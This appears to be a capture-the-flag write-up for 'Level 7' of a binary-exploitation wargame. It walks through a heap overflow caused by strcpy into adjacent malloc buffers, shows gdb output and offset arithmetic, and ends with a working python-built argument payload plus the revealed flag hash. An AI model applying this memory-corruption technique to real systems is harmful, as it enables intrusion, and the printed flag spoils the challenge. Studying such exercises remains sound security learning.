## LEVEL 7
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---
This level has longer and more complex assembly code than the previous levels.
I won't show the major parts of the code, but you can still find a fully explained version of the code in [this file](./asm/level7.asm), or a C version in [this file](./src/level7.c).

This level uses the same logic as the previous level.
The main part to understand is the vulnerability caused by the combination of using `malloc` and `strcpy`.
Although the vulnerability is linked to `strcpy`, a similar attack can be used with the values stored inside the stack.

First thing to notice is the usage of malloc who looks like this *(pseudo C code)* :
```c
ptr1 = malloc(8);
*(ptr1) = 1;
*(ptr1 + 4) = malloc(8);
ptr2 = malloc(8);
*(ptr2) = 2;
*(ptr2 + 4) = malloc(8);
```
In the previous level, I explained that `malloc` allocates a larger size of memory than requested and then splits this memory into smaller parts to avoid heavy system calls like `mmap` or `sbrk`.
Based on this information, I predict that these four pointers are located together in memory.
But I need to be sure, so I will use `gdb` to check the addresses of these pointers.

```bash
(gdb) b *0x08048599
Breakpoint 1 at 0x8048599
(gdb) r
Starting program: /home/user/level7/level7

Breakpoint 1, 0x08048599 in main ()
(gdb) x/4a $esp+24
0xbffff728:	0x804a028	0x804a008	0x8048610 <__libc_csu_init>	0x0
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
```

We can see that the four pointers are located together in memory.
But even if the program asks for 8 bytes `malloc` gives them 16 bytes. This is because of the alignment of the memory.
The memory is aligned on 16 bytes, so `malloc` will always return a pointer aligned on 16 bytes.

The second thing I notice is the usage of `strcpy` to copy the user input into the memory allocated by `malloc`.
This is the vulnerability. `strcpy` doesn't check the size of the destination buffer, so it will copy the user input until it finds a null byte.
This means that if the user input is larger than the allocated memory, `strcpy` will write outside of the allocated memory.

```c
strcpy(*(ptr1 + 1), argv[1]);
strcpy(*(ptr2 + 1), argv[2]);
```

`strcpy` takes the address at `(ptr + 1)` and writes to that address. In our case, it will take the address `0x0804a018` and write to that address.

Perfect, we have all the information we need to exploit this program. We know that `strcpy` can overwrite memory if it doesn't encounter a NULL byte.
Therefore, if the first `strcpy` overwrites the address at `(ptr2 + 1)`, which is `0x0804a038`, the second `strcpy` can write any value we want at that address.

Oh, I almost forgot to mention how we will obtain the flag. In the program, we have a function called `m` that takes a global string where the flag is stored at the end of the program, and it prints the flag. 
Therefore, we need to overwrite the address of the global string with the address of the `m` function.

Now it's time to gather the information for our payload.
First, we need to determine where to write the address for overwriting.
We observed with GDB that the first string is written at `0x804a018` and the second address is stored at `0x804a028 + 4`.
Therefore, the distance between these two addresses is `0x804a028 + 4 - 0x804a018 = 0x14`.
This means that we need to write 20 bytes in order to overwrite the second address.

Now we need an address to overwrite, and this address must be a reference to a `jmp` instruction. There are two options you can consider:

1. The first address you can use is the return value of the `main` function, which is stored at `ebp + 4` (e.g., `0xbffff73c`).

2. Alternatively, you can use the address of the `jmp` instruction in the `puts` function, which is stored at `0x8049928`.

In my case, I mentioned that I will use the address of the `main` function's return value.

Additionally, we need the address of the `m` function, which is `0x080484f4`.

With these details, we can now create our payload in the following structure:

```
argv[1] = {
    20 bytes of padding to overwrite the second address
    +
    address to change
}

argv[2] = {
    address of the m function
}
```
Here is our final payload executed:
```bash
$ ./level7 `python -c 'print "A"*20 + "\x3c\xf7\xff\xbf"'` `python -c 'print "\xf4\x84\x04\x08"'`
~~
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1684416496
Segmentation fault (core dumped)
```
